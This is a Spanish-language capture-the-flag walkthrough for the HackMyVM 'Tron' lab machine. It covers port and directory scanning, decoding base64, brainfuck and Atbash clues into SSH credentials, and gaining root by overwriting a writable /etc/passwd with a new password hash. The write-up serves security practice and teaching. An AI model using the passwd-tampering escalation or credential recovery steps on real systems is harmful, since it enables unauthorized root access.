 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tron HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 02:16 EDT
Nmap scan report for 192.168.1.172
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:ed:64:93:84:b5:b2:e8:af:5a:0e:6f:52:af:4b:48 (RSA)
|   256 3d:df:6f:02:13:9e:15:f8:51:94:30:f8:45:e3:f2:93 (ECDSA)
|_  256 2f:f4:af:e1:f4:c4:a5:3b:50:bb:e5:b9:2a:9f:39:de (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Master Control Program
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:8B:31:4C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```

Veremos que hay un puerto `80` levantado, por lo que si entramos en el veremos una pagina normal y corriente, vamos a realizar un poco de `fuzzing` para ver que podemos ver.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.172/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 309]
/.html                (Status: 403) [Size: 278]
/img                  (Status: 200) [Size: 936]
/manual               (Status: 200) [Size: 626]
/robots.txt           (Status: 200) [Size: 623]
/font                 (Status: 200) [Size: 935]
/.html                (Status: 403) [Size: 278]
/MCP                  (Status: 200) [Size: 1140]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos de todo esto una ruta bastante interesante llamada `/MCP` vamos a probar a entrar dentro de la misma.

Si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay varios archivos, pero si nos descargamos el archivo llamado `tron.txt` veremos lo siguiente:

```
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me? 


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```

Vemos que hay un codigo cifrado, por lo que vamos a intentar decodificarlo de la siguiente forma:

```shell
echo "KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==" | base64 -d
```

Info:

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++++.----.-----------.++++++++++++++++++++++++.--------------------.+++++++++++++.
```

Vemos que nos da otro codigo codificado que esta en formato `brainfuck` por lo que si lo decodificamos se quedara algo asi:

```
player
```

Vemos que sera un nombre de usuario, ahora si nos vamos a `terminalserver` -> `30513.txt` veremos esto:

```
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```

Vemos que esto puede ser como un codigo para poder decodificar algo que este por ahi, por lo que vamos a investigar un poco.

Buscando un rato, si vamos a la pagina principal e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- kzhh:SbWP9q94ZtE9qD  -->
```

Vamos a utilizar esto para aplicar la decodificacion de sustitucion con la palabra que encontramos a ver que vemos:

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y la contraseña de `player` es `SyWP9j94ZgE9jD` por lo que vamos a conetcarnos por `SSH`.

### SSH

```shell
ssh player@<IP>
```

Metemos como contraseña `SyWP9j94ZgE9jD` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVMuserplayer2021
```

## Escalate Privileges

Despues de buscar un rato si hacemos lo siguiente:

```shell
find /etc -type f -writable 2>/dev/null
```

Info:

```
/etc/passwd
```

Veremos que podemos sobreescribir el archivo `passwd`, por lo que podremos hacer lo siguiente:

Antes codificaremos la contraseña para que la admita en el archivo `passwd`.

```shell
openssl passwd 1234
```

Info:

```
$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.
```

Ahora en la maquina victima vamos a establecerle dicha contraseña codificada a `root`.

```shell
nano /etc/passwd

#Dentro del nano
root:x:0:0:root:/root:/bin/bash #Pasamos de esto
root:$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.:0:0:root:/root:/bin/bash #<--------------- Ha esto
```

Lo guardamos y realizamos lo siguiente:

```shell
su root
```

Metemos como contraseña `1234` y veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVMMasterControlProgram2021
```
